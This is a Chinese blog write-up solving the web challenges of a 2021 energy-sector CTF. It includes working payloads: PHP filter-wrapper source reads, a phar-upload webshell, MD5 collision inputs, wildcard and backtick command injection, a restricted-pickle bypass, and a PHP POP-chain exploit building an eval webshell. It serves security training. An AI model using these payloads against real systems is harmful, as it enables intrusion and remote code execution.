<!--yml
category: 未分类
date: 2022-04-26 14:55:36
-->

# CTF专题一2021网络WEB题目解析_普通网友的博客-CSDN博客_ctf web分析

> 来源：[https://blog.csdn.net/kali_ma/article/details/120847330](https://blog.csdn.net/kali_ma/article/details/120847330)

## **0x01 前言**

背景：
2021年10月15日的“中国能源网络安全大赛”

感觉WEB的考点形形色色，其中有1道偏于黑盒测试的简单题目，4道是白盒审计类题目，还有一道是Python的反序列化题目，题目名称大致如下：



因为唯一的一道黑盒题目还是文件包含题目，所以将题目源代码全部扒下来了，给大家提供复现环境。（flag自己创建）。



> 为了感谢广大读者伙伴的支持，准备了以下福利给到大家：
> 
> **[[一>获取<一]](https://shimo.im/docs/C9WxVrD6V3tGcjgQ/)**
> 
> 1、200多本网络安全系列电子书（该有的都有了）
> 
> 2、全套工具包（最全中文版，想用哪个用哪个）
> 
> 3、100份src源码技术文档（项目学习不停，实践得真知）
> 
> 4、网络安全基础入门、Linux、web安全、攻防方面的视频（2021最新版）
> 
> 6、 网络安全学习路线（告别不入流的学习）
> 
> 7、ctf夺旗赛解析（题目解析实战操作）
> **[[一>获取<一]](https://shimo.im/docs/C9WxVrD6V3tGcjgQ/)**

下面分享这次比赛的解题过程。

## **0x02 ezphp**

这是一道很简单的题目，同时也被大家刷成了签到题。

打开界面显示如下：



单机按钮后会返回源代码，如图：



这里MD5的判断已经是千年老题了，使用数组就可以绕过。

问题是下面的 r e s 的 结 果 不 可 以 包 含 f l a g 字 符 串 ， 这 里 的 话 我 们 可 以 通 过 p h p 伪 协 议 将 它 进 行 b a s e 64 加 密 绕 过 即 可 。 但 是 我 们 可 以 注 意 到 res的结果不可以包含flag字符串，这里的话我们可以通过php伪协议将它进行base64加密绕过即可。但是我们可以注意到 res的结果不可以包含flag字符串，这里的话我们可以通过php伪协议将它进行base64加密绕过即可。但是我们可以注意到request_url中间是拼接了一个url地址的，如图：



这里我们可以将php伪协议拆分成两段，例如：

`php://filter/read=convert.base64-encode/****v/popular/all****/resource=/flag`，这样虽然PHP会抛出异常，但是也是可以正常运行的，如图：



Base64解密获得flag：


## **0x03 phar**

这道题有一定的黑盒成分，也是比较简单的一道题目，首页如下：



我们可以看到这里给出了一个hint，那么访问include.php看一下，如图：



给出了提示，说参数的key值为file，那么包含/etc/passwd看一下结果：



显然这里包含失败了，在这里我们只能对源代码的编写进行猜测，这里有两条路可选：

> 1: 程序写法为 include $_GET[file] . ‘.xxx’; 针对这一种情况，我们可以fuzz后缀到底是什么，然后再进行读源码或包含一系列操作。
> 
> 2: 显然这一条路是比较离谱的，也就是说，根据题目名为phar，是否考点为phar反序列化？或者这里存在一个辅助的class.php文件，只是我们不知道class的文件名而已，但是由于这里的hint为include.php，显然这一条路是比较离谱的。

那么这里可以包含以下include，如图：



显然形成自己包含自己，后缀确定为.php，使用伪协议阅读源码：



这里不让使用base，那么我们可以使用url二次编码绕过，将“e”字符进行二次编码，如图：



怼出php源码：



根据hint.php找到上传点upload.php，这里读取upload.php源码，如图：



这里限制了后缀与mime类型，但是没关系，我们可以上传后缀为jpg的phar文件，在phar文件中存放一个1.php为一句话木马，包含即可，如图：



然后phar包含：



## **0x04 HardCode**



这里第一个if判断使用md5强碰撞即可。

> M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2

> M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2

下面的preg_match过滤也是比较严格的，这里首先判断版本号，笔者通过http头发现php版本为5.2.9版本，如图：



显然这里的preg_match只是多了一个@符号的限制，但是我们还是可以通过Linux的通配符来匹配的，如图：@的ASCII：



那么根据题目中的过滤0-9，我们可取的也就是@与数字9中间的特殊符号：



这里笔者取“>”，完整的正则写为[>-[]。

构造Payload：

> x=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&y=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2&code=`.%20/???/????????[\>-[]`

如图：


睡眠3秒，这里可以直接反弹shell。



## **0x05 CODE**



毫无卵用的加密，然后对eval一步一步echo得出如下源代码：

```
<?php

// error_reporting(E_NOTICE);

highlight_file(__FILE__);

@session_start();

$username = @$_GET['whoami'];

if(!@isset($username['admin'])||$username['admin'] != @md5($_SESSION['username'])) {

die('error!');

} else {

if(isset($_GET['code'])) {

$admin = $_GET['code'];

$admin = addslashes($admin);

if(preg_match('/\{openlog|syslog|readlink|symlink|popepassthru|stream_socket_server|scandir|assert|pcntl_exec|fwrite|curl|system|eval|assert|flag|passthru|exec|system|chroot|chgrp|chown|shell_exec|proc_open|proc_get_status|popen|ini_alter|ini_restore([^}]+)\}/i' , $admin)) {

die('error!');

}

if (intval($admin)) {

eval('"' .$admin .('"./hh.php"') .')}}";');

}

} else {

eval('$flag="' .$admin . '";');

}

}

?> 
```

这里$_SESSION[username]是null，所以我们只要使用一个空的md5串就行：`whoami[admin]=d41d8cd98f00b204e9800998ecf8427e`

下面`$_GET[code]`经过了`addslashes`函数，无法闭合下面`eval('"' .$admin .('"./hh.php"') .')}}";');`的双引号，我们打印一下如图：



这里肯定回抛出一个语法错误的，因为语法格式是错误的。

但是在双引号包裹${}进行执行还有一个姿势，如图：


这种写法就允许了两对双引号在未经反斜杠转义下的解析。

那么构造Payload：?`whoami[admin]=d41d8cd98f00b204e9800998ecf8427e&code=1${${print(`



这样成功输出了./hh.php，在preg_match中并没有过滤反引号，我们可以通过反引号来执行命令，如图：



放在题目中查看flag位置，如图：



但是在preg_match中过滤了“flag”字符，这里可以使用Linux的通配符来匹配，如图：



## **0x06 EZpy**

阅读源代码：

```
import base64

import io

import sys

import pickle

import b

from flask import Flask, Response, render_template, request

app = Flask(__name__)

def read(filename, encoding='utf-8'):

with open(filename, 'r', encoding=encoding) as fin:

return fin.read()

class people:

def __init__(self, name, sex, age):

self.name = name

self.sex = sex

self.age=age

def __repr__(self):

return f'people(name={self.name!r}, category={self.sex!r}, age={self.age!r})'

#==判断

def __eq__(self, other):

return type(other) is  people and self.name == other.name and self.sex == other.sex and self.age==other.age

class RestrictedUnpickler(pickle.Unpickler):

def find_class(self, module, name):

if module[0:8] == '__main__':

return getattr(sys.modules['__main__'], name)

raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))

def here_load(s):

return RestrictedUnpickler(io.BytesIO(s)).load()

@app.route('/',methods=['GET','POST'])

def index():

if request.args.get('source'):

return Response(read(__file__),mimetype='text/plain')

else:

return Response("/?source=")

@app.route('/app', methods=['GET', 'POST'])

def inll():

if request.method == 'POST':

try:

pickle_data = request.form.get('data')

if b'R' in base64.b64decode(pickle_data):

return 'no no no'

else:

result = here_load(base64.b64decode(pickle_data))

if type(result) is not people:

return '？？？？'

correct = (result == people(b.name, b.sex, b.age))

if correct:

return Response(read('/flag.txt'))

except Exception as e:

return Response(str(e))

test = people('test', 'test','55')

pickle_data = base64.b64encode(pickle.dumps(test)).decode()

return Response(pickle_data)

if __name__ == '__main__':

app.run(host='0.0.0.0', port=8000) 
```



这里过滤了R指令码，那么跟进here_load方法，如图：



这里指明了只可以获取__main__模块下的包，那么这里命令执行暂时先不考虑，我们继续往下看代码：


将反序列化出来的对象与people对象进行比较，默认比较应该按照地址进行比较，但是这里的people类写了__eq__魔术方法，这里的比较就只是生成出来的对象的属性比较了，如图：



那么我们就可以通过Python反序列化，去修改b包中的name，sex，age属性，并且再生成一个people对象，经过__eq__的比较，即可获取flag.txt的内容，编写POC：

```
import base64

data=b'c__main__\nb\n}(Vname\nVtest\nVage\nV13\nVsex\nVnan\nub0c__main__\npeople\n)\x81}(Vname\nVtest\nVage\nV13\nVsex\nVnan\nub.'

print(base64.b64encode(data)) 
```

发送Payload：



获取flag。

## **0x07 ezp0p**

纯纯的代码审计题目：

```
<?php

error_reporting(0);

highlight_file(__FILE__);

class This{

protected $formatters;

public function want(){

echo "what do you want to do?";

}

public function __call($method, $attributes)

{

return $this->format($method, $attributes);

}

public function format($formatter, $arguments)

{

$this->getFormatter($formatter)->patch($arguments[0][1][0]);

}

public function getFormatter($formatter)

{

if (isset($this->formatters[$formatter])) {

return $this->formatters[$formatter];

}

}

}

class Easy{

protected $events;

protected $event;

public function __destruct()

{

$this->events->dispatch($this->event);

}

public function welcome(){

echo "welcome CTFer!";

}

}

class Ctf{

protected $ban;

protected $cmd;

public function upup(){

echo "upupupupupupup!";

}

public function __construct()

{

$this->ban='script';

$this->cmd='whoami';

}

public function dispatch($cmd){

call_user_func_array("script",$cmd);

}

}

class Gema{

protected $xbx;

public function gema(){

echo "wish you like this ezp0p!";

}

public function __construct()

{

$this->xbx='script';

}

public function patch($Fire){

call_user_func($this->xbx,$Fire);

}

}

if($_POST['x']!=$_POST['y'] && md5($_POST['x'])===md5($_POST['y'])){

if(file_get_contents(substr($_POST['x'],0,20))!=null){

@unserialize(base64_decode($_POST['data']));

}else{

die('To read this file??');

}

}else{

die('maybe you are right??');

}

?> 
```

首先这里的unserialize函数是一个门槛，如图：



要求file_get_contents必须读出内容，再加上前面的md5判断，我们这里可以使用fastcoll生成md5的前20位为./././././/index.php，然后进行MD5强碰撞即可。



下面进行挖掘POP链路，如图：


源代码传送门：

> 链接：https://pan.baidu.com/s/1byWki_NV9yZNb34xuGEkBA 提取码：xv3m

编写POC：

```
<?php

class Gema {

protected $xbx = 'assert';

}

// AAAAAAAAAAAAAA

class This {

protected $formatters = ['dispatch' => 'obj...'];

public function __construct($obj){

$this -> formatters['dispatch'] = $obj;

}

}

class Easy{

protected $events;

protected $event = [1 => ['eval($_REQUEST["c"])']];

public function __construct($obj)

{

$this -> events = $obj;

}

}

$obj = new Easy(new This(new Gema()));

echo base64_encode(serialize($obj)); 
```

获取Flag：

